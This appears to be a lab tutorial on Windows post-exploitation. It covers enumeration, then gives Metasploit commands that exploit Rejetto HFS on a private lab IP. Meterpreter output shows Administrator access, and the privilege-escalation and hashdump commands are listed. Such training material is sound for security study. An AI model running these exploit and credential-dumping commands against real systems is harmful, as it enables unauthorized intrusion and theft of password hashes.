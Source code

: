 You can also enumerate the programs that are currently installed on the target system, which can be very helpful during the privilege escalation process because you may find a specific version or a specific program that's installed that could be vulnerable to a privilege escalation attack.

We can also enumerate the computers that are connected to the domain. So, if the target system is part of a Window domain, we can enumerate the other computers that are part of the domain, which can be very helpful in performing pivoting or getting an idea of what other systems are currently on the target network.

We can also enumerate the installed patches or the installed updates on the Windows system. So we can get an idea of what patches have been installed, which can be very helpful if we are trying to identify what exploits can actually be used to elevate our privileges on this particular Windows system.

Target IP Address: 10.2.23.169

```
service postgresql start && msfconsole
workspace -a windows_post
setg RHOSTS 10.2.23.169
db_nmap -sV 10.2.23.169
search rejetto
use exploit/windows/http/rejetto_hfs_exec
show options
run
```

The target operating system architecture is 64-bit and the Meterpreter architecture is 32-bit. So we can upgrade that.

```
meterpreter > sysinfo
Architecture : x64
Meterpreter  : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
meterpreter > help
```

[Manage Meterpreter and Shell Sessions](https://docs.rapid7.com/metasploit/manage-meterpreter-and-shell-sessions/)

```
Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database
```
